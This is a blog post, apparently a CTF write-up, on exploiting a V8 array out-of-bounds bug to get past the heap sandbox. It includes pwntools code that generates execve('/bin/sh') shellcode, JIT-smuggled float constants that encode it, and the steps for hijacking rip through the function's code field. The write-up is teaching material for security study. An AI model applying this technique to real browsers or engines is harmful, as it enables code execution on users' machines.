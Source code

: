 ```yaml
---
layout: post
title:  "Dice CTF Memory Hole: Breaking V8 Heap Sandbox"
date:   2022-02-06 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Introduction

In this challenge, we need to exploit V8 JavaScript engine with heap sandbox enabled. The bug is very simple: an array OOB. We bypass the sandbox by rewriting `code` field of function object, so that we can control the low 32 bits of `rip` register. We write the shellcode as double floating point immediate numbers in function and compile this function using JIT, and and set `rip` to address of the shellcode to execute `execve`.

## 0x01 Sandbox Overview

The detail of the sandbox is [here](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8/edit#), but I will not detail it here. One important protection is that it converts all external pointers to indexes of a lookup table, such as pointer to web assembly RWX page and pointer of `ArrayBuffer` backing store. Thus, we cannot use normal approach to achieve arbitrary read and write.

## 0x02 Approach

### Hijacking Program Counter

If we `%DebugPrint` a function object, we can see there is a `code` field pointing to an object at a `r-x` page. If we type `job` command to that `code` field, we can see many assembly instructions. These are exactly the instructions that will be executed if the function is called.

```
pwndbg> job 0x7fb0804ad55
0x7fb0804ad55: [Function]
 - map: 0x07fb082022c1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 ...
 - code: 0x07fb00004f01 <Code BUILTIN CompileLazy>  <---- code field
 ...
pwndbg> job 0x07fb00004f01
...
Instructions (size = 1112)
0x7fb07e8d6c0     0  55                   push rbp
0x7fb07e8d6c1     1  4889e5               REX.W movq rbp,rsp
...
```

We can verify this by setting a break point at `0x7fb07e8d6c0` and call the function in JavaScript. We can see the breakpoint is triggered in debugger.

Therefore, we can try to modify this field to see if we can hijack `rip` when this JavaScript function is called. We set the `code` field to `0x414141` using `gdb` `set` command, and call this function in JavaScript. We can see a crash at following location:

```assembly
 ► 0x7fb07e8206b    test   dword ptr [rcx + 0x1b], 0x20000000
   0x7fb07e82072    jne    0x7fb07e82081 <0x7fb07e82081>

   0x7fb07e82078    add    rcx, 0x3f
   0x7fb07e8207c    jmp    0x7fb07e8208c <0x7fb07e8208c>
    ↓
   0x7fb07e8208c    jmp    rcx
```

The value of `rcx` is `0x7fb00414141`, which is base address plus the value we have provided.

Looking at the assembly code where the crash occurs, we can conclude that if `dword ptr [rcx + 0x1b] & 0x20000000` is zero, `rip` will be set to `rcx + 0x3f`, which is an easily satisfiable condition.

### Writing Shellcode with Immediate Numbers

Unlike web assembly, whose JIT code is stored in region outside the V8 heap, the normal JavaScript function store the JIT code inside the V8 heap (e.i. the 32-bit region starting with the base address, read [this](https://v8.dev/blog/pointer-compression) for more details). We can see this also by looking at `code` field of a JITed JavaScript function object.

```javascript
const foo = () =>
{
	return [1.1, 2.2, 3.3];
}
%PrepareFunctionForOptimization(foo);
foo();
%OptimizeFunctionOnNextCall(foo);
foo();
%DebugPrint(foo);
readline();
```

```
DebugPrint: 0x29820804ae0d: [Function]
 - map: 0x2982082022c1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 ...
 - code: 0x298200044001 <Code TURBOFAN>
 ...
 
pwndbg> job 0x298200044001
0x298200044001: [Code]
...
Instructions (size = 304)
0x298200044040     0  8b59d0               movl rbx,[rcx-0x30]
...
0x29820004409f    5f  49ba9a9999999999f13f REX.W movq r10,0x3ff199999999999a
0x2982000440a9    69  c4c1f96ec2           vmovq xmm0,r10
0x2982000440ae    6e  c5fb114107           vmovsd [rcx+0x7],xmm0
0x2982000440b3    73  49ba9a99999999990140 REX.W movq r10,0x400199999999999a
0x2982000440bd    7d  c4c1f96ec2           vmovq xmm0,r10
0x2982000440c2    82  c5fb11410f           vmovsd [rcx+0xf],xmm0
0x2982000440c7    87  49ba6666666666660a40 REX.W movq r10,0x400a666666666666
...
```

As we can see in the JIT code, the IEEE representations of `1.1`, `2.2` and `3.3` are compiled to `r-x` page inside the V8 heap region. We can write shellcode using these numbers and connect them with a `jmp` instruction. Since `jmp` instruction consumes 2 bytes, we have 6 bytes for shellcode, which are definitely enough.

Therefore, we can set `rip` to the shellcode using the method mentioned in last subsection. The condition can be easily satisfied by putting a `1.0` at first element of array.

We generate the shellcode with following scripts, and convert the hex numbers into IEEE floating point numbers using this [website](https://www.binaryconvert.com/convert_double.html):

```python
from pwn import *

context(arch='amd64')
jmp = b'\xeb\x0c'
shell = u64(b'/bin/sh\x00')

def make_double(code):
	assert len(code) <= 6
	print(hex(u64(code.ljust(6, b'\x90') + jmp))[2:])

make_double(asm("push %d; pop rax" % (shell >> 0x20)))
make_double(asm("push %d; pop rdx" % (shell % 0x100000000)))
make_double(asm("shl rax, 0x20; xor esi, esi"))
make_double(asm("add rax, rdx; xor edx, edx; push rax"))
code = asm("mov rdi, rsp; push 59; pop rax; syscall")
assert len(code) <= 8
print(hex(u64(code.ljust(8, b'\x90')))[2:])

"""
Output:
ceb580068732f68
ceb5a6e69622f68
cebf63120e0c148
ceb50d231d00148
50f583b6ae78948
"""
```

The final function that can generate the shellcode is shown below:

```javascript
const foo = ()=>
{
	return [1.0,
		1.95538254221075331056310651818E-246,
		1.95606125582421466942709801013E-246,
		1.99957147195425773436923756715E-246,
		1.95337673326740932133292175341E-246,
		2.63486047652296056448306022844E-284];
}
```

Another thing to note is that we must put the immediate numbers as elements of array, instead of using them in other ways like `func(1.1, 2.2)`. The later one will generate JIT code that loads floating point numbers as `HeapNumber`, so that the immediate numbers cannot be compiled into `r-x` page.

Also, JIT compiling `foo` with loop can trigger garbage collection, so that we must compile it before triggering any vulnerability.

### Arbitrary Read and Write within V8 Heap Region using TypedArray

Finally, we need to use the vulnerability to actually implement the idea mentioned above. We found that we can still use `TypedArray` to achieve arbitrary read and write within V8 heap region (e.i. 32-bit region starting with the base address). Therefore, we use array OOB write to rewrite field of `Uint32Array` to achieve this arbitrary read and write. We also use array OOB read to leak addresses of related function objects. The full exploit is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/memory-hole-1984.js).

## 0x03 Conclusion

The sandbox makes the exploitation harder but I think in reality it does not make any exploitable bug unexploitable.


